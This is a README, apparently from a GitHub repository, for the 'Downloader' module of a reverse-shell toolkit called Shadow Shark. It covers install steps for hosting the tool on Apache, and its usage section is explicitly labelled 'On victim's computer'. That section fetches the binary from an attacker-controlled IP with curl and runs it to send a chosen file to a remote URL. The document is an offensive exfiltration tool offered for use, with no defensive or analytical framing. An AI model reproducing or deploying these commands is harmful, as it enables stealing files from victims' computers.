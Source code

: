# Downloader
The <a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a> Downloader module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/Downloader.git
$ sudo chown -R www-data:www-data /var/www/html/Downloader/
$ cd Downloader/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/Downloader.git
$ sudo chown -R www-data:www-data /var/www/html/Downloader/
$ cd Downloader/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/hacks/Downloader/Downloader.(exe, app, etc) --output Downloader.(exe, app, etc)
$ Downloader.(exe, app, etc) --file (File) --url (Url to send the file to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico Downloader.py
```
